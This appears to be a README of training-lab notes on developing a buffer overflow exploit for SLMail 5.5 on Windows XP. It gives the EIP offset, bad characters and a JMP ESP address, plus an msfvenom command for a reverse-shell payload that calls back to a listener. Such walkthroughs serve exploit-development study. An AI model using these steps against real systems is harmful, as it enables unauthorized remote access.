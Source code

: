 # SLMail 5.5 exploit development


## Exploit background

Version: SLMail 5.5

Debugger use: Immunity Debugger

OS: Windows XP SP3 32-bit

## Development steps

1. Use fuzz.py to know how many A will get overflow.

    2600: will trigger the overflow, but it is not within the A range

    ![hashdump](../../images/slmail_fuzz.png)

    2700: will trigger the overflow, and EIP fill with A.

2. Use pattern to locate where EIP is

    ```
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438
    [*] Exact match at offset 2606
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    ![hashdump](../../images/slmail_bbbb.png)

4. Expand the payload from 2700 to 3500 by increase the length of CCCC section, Run again and confirm that this works.

    ![hashdump](../../images/slmail_fuzz2700.png)

5. Bad characters checker, badchars is \x00\0xa\0xd only, see code at bad_chars.py


6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    Openc32.dll
    SLMail.exe
    SLMFC.dll

    ![hashdump](../../images/slmail_mona.png)
    
7. Inspect the memory map on `Memory map` windows


8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

```
root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
jmp esp 
nasm > jmp esp
00000000  FFE4              jmp esp
```


9. use mona to find address => 0x5f4a358f

    `!mona find -s "\xff\xe4" -m slmfc.dll`

    ![hashdump](../../images/slmail_ffe4.png)

10. update the script to replace B with address `\x8f\x35\x4a\x5f`, set breakpoint at 0x5f4a358f



11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC


12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

    ![hashdump](../../images/slmail_shell.png) 

## Extra info

1. This process can only be attached, it is better to connect it first before attach.

2. It is very easy to fail attach, and kill the process when detach.